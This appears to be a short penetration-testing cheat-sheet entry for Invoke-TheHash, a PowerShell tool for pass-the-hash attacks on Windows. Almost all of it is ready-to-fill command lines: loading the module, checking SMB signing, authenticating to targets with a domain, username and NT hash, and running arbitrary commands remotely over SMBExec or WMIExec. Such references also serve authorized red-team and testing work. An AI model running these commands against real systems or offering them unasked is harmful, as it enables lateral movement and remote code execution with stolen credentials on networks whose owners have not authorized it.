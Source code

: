 # invoke-thehash

% pth, windows

#plateform/windows #target/local #cat/UTILS


## load module
https://github.com/Kevin-Robertson/Invoke-TheHash
```
Import-Module ./Invoke-TheHash.psd1
```

## Check SMB signing
```
Invoke-TheHash -Type SMBExec -Target '<ip_range>'
```

## Check for command execution (pth)
SMBClient, SMBEnum, SMBExec, or WMIExec
```
Invoke-TheHash -Type <method|SMBExec> -Domain <domain_fqdn> -Username <user> -Hash <nt_hash> -Target <ip>
```

## execute command (pth) 
SMBClient, SMBEnum, SMBExec, or WMIExec
```
Invoke-TheHash -Type <method|SMBExec> -Domain <domain_fqdn> -Username <user> -Hash <nt_hash> -Command "<command|whoami>" -Target <ip>
```